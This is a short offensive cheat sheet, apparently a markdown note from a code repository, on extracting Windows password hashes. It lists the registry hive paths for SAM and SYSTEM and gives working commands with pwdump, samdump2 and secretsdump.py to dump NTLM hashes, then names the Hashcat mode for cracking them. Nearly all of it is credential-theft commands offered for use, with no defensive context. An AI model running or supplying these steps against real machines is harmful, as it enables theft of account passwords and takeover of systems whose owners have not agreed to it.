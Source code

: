 ## Here is what you need to dump the SAM hive if you should have acces to it:

## Common Locations:

%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

--> Make sure to grab the "SAM" and "SYSTEM"

## Dump the Password hashes:

pwdump SYSTEM SAM > /root/sam.txt

or

samdump2 SYSTEM SAM -o sam.txt

or

python3 secretsdump.py -sam SAM -system SYSTEM LOCAL

## Crack with Hashcat

--> Use Hash mode #1000 for NTLM hashes!!!


## Remember "Used" SAM and SYSTEM filesa are dozens of MB large!!!

